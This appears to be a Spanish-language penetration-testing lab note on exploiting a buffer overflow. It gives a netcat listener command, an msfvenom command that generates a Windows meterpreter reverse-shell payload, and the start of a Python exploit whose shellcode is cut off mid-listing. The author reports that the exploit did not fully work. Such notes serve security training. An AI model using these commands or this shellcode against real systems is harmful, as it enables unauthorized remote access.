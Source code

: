 - A veces es mejor utilizar metasploit, he tenido mucho problema para ejecutar manualemnte la vulnerabilidad a partir del fichero python que hay en github que permite obtener una revershell explotando el buffer-overflow, al final se muestra el script, sin embargo no he podido poner en escucha de forma correcta ya que se establecía la conexión pero al ejecutar comandos, estos no se ejecutaban.
- Se ha demostrado la utilidad de los scripts de vulnerabilidades de nmap, son rápidos y efectivos si se detecta, por eso se añade una sección en el cheatsheet de nmap para realizar búsquedas de script de NSE de nmap

---

## Código python que se ha intentado utilizar de exploit:

En escucha
``` bash
rlwrap nc -lvnp 443 
```

Generación del shellcode
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.176 LPORT=443 EXITFUNC=thread  -f python -v shell > shellcode_meterpreter 
```

Fichero python de explotación del buffer-overflow
``` python
#!/usr/bin/env python3
# Este exploit depende de que exista el binario `rpcclient` (del paquete samba-common-bin en Debian/Kali).
# La idea es que tras inyectar el payload, se dispare mediante un intento de autenticación SMB.
# El éxito de la autenticación NO importa, basta el evento.

import sys
import subprocess
from socket import socket

try:
    target = sys.argv[1]
except IndexError:
    print(f"\nUsage: {sys.argv[0]} <target ip>\n")
    print(f"Example: {sys.argv[0]} 192.168.1.1\n")
    sys.exit(-1)

# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.77 LPORT=443 EXITFUNC=thread -f python -v shell
# Aquí va tu shellcode generado con msfvenom
shell =  b""
shell += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52"
shell += b"\x30\x8b\x52\x0c\x8b\x52\x14\x89\xe5\x31\xff\x0f"
shell += b"\xb7\x4a\x26\x8b\x72\x28\x31\xc0\xac\x3c\x61\x7c"
shell += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shell += b"\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
shell += b"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x48\x18\x8b\x58"
shell += b"\x20\x01\xd3\x85\xc9\x74\x3c\x49\x8b\x34\x8b\x01"
shell += b"\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38"
shell += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shell += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shell += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shell += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shell += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shell += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shell += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shell += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2d"
shell += b"\xb0\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50"
shell += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shell += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
```